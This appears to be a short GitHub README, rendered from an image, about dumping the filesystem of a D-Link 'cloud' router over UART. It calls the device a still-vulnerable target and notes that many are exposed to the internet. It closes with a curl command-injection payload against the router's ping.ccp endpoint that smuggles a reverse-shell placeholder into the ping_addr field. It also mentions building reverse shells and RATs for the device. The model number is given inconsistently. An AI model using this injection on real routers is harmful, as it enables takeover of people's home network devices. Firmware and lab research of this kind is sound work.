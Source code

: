 # Taking a dumparooski from a Dlink DIR363L "cloud" router.

DLink D636L "Cloud Router". Has RT6856F CPU, soic16 flash rom on the backside of the PCB, 1gig ports, nvme/tiny pci slot for wifi card, and thruholes for uart pins. UARTing into this thing will get you a shell, 115200 should work. Standard cheap MIPS environment. Easy to build revsh's and rats, lots of these exposed to the WAN.
<BR><BR>
dir636l.tar.gz has the whole filesystem (not scrubbed for addresses or serials, im not using this thing in prod ever so enjoy). Still has vulns, great as a practice target. Look for tools_vst.asp and/or ping.ccp when hunting for juice on this device. "curl -X POST --data 'ccp_act=ping_v6&ping_addr=$(SUPER NIFTY REVERSE SHELL HERE)' -i http: //target-router /ping.ccp"

